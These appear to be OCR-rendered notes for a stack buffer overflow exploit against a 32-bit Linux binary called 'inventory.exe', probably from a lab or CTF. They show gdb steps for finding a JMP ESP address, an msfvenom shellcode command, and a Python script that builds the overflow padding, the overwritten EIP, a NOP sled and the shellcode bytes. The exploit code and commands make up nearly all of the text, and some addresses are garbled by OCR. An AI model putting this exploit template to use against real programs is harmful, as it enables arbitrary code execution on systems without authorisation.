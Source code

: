 # info proc map

##get start addr below heap and end addr above stack, add hex for JMP AND ESP after

# find /b 0xf7de1000,0xf7ffe000,0xff,0xe4  ----- run in gdb

0xf7 f6 53 43
0xf7f65497
xf7f655cf
0xf7f65777
0xf7f659ef
0xf7f662eb
0xf7f6649b
0xf7f66533


## msfvenom -p linux/x86/exec CMD="whoami" -b "\x00" -f python  -- generate shellcode




#EDIT script
------------------------------------------------------------------------------------------------
overflow = "A" * 76

##change eip to the reverse indian of returned values above##
eip = "\x43\x53\xf6\xf7"

##create NOP sled##
nop = "\x90" * 10

## SHELLCODE from msfvenom command ## 
buf =  b""
buf += b"\xb8\x7c\xb3\xf8\x83\xd9\xed\xd9\x74\x24\xf4\x5b"
buf += b"\x2b\xc9\xb1\x0b\x83\xc3\x04\x31\x43\x10\x03\x43"
buf += b"\x10\x9e\x46\x92\x88\x06\x30\x31\xe9\xde\x6f\xd5"
buf += b"\x7c\xf9\x18\x36\x0c\x6d\xd9\x20\xdd\x0f\xb0\xde"
buf += b"\xa8\x2c\x10\xf7\xac\xb2\x95\x07\xc4\xda\xfa\x66"
buf += b"\x47\x73\x05\x3e\xc4\x0a\xe4\x0d\x6a"

##change print statement##
print(overflow + eip + nop + buf)
------------------------------------------------------------------------------------------------





## regenerated shellcode

## ./inventory.exe <<< $(python elf_buff.py)
